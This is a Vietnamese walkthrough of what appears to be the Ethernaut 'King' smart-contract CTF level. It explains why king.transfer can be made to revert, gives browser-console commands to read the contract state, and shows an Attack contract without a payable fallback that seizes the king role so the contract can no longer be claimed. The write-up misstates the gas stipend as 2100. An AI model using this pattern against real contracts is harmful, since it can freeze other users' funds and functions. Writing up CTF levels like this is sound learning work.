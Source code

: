 ```js
function() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
}
```

- Ta nảy ra ý tưởng làm cho hàm `king.transfer(msg.value)` không thành công và transaction bị revert.
- Chuẩn bị một contract không có `payable` fallback, chiếm quyền và thế là xong.

### Solution

- Trên Chrome Console, kiểm tra king hiện tại:

```js
await contract.king()
```

- Kiểm tra price hiện tại:

```js
await contract.prize().then(x => x.toNumber);
> 1000000000000000000
```

nghĩa là giải thưởng hiện tại là 1 ether

- Trên Remix IDE, chuẩn bị một contract tấn công không có `payable fallback`

```js
contract Attack {

  function steal(address _target) public payable {
    if(!_target.call.value(msg.value)()) revert();
  }
}
```

- mình sẽ giải thích thêm một chút về đoạn `if(!_target.call.value(msg.value)()) revert();`, có vẻ trông đoạn này hơi lạ nhưng có lý do của nó:
  - để gửi eth đến một địa chỉ, chúng ta có 3 cách: `transfer`, `send`, `call.value`. Trong đó thì _transfer_ và _send_ được fixed số gas limit là 2100, quá là thấp, có nghĩa _transfer_ và _send_ chỉ thuần tuý là để chuyển eth mà không thể thực hiện thêm bất cứ logic nào trong fallback function cả.
  - `call.value` là một hàm lowlevel, không giới hạn số gas limit, tuy nhiên sẽ trả về kết quả true/false thay vì throw ra một exception, vì thế ta cần đưa vào đoạn if-revert để biết được nó có lỗi hay không.
- Compile và chạy hàm steal, `_target` là target của instance của bạn, `msg.value` ta cho một giá trị lớn hơn prize hiện tại, ví dụ 1.1 ether (1100 finneys).

- Kiểm tra lại king hiện tại và thấy đang là bạn:

```js
await contract.king()
```

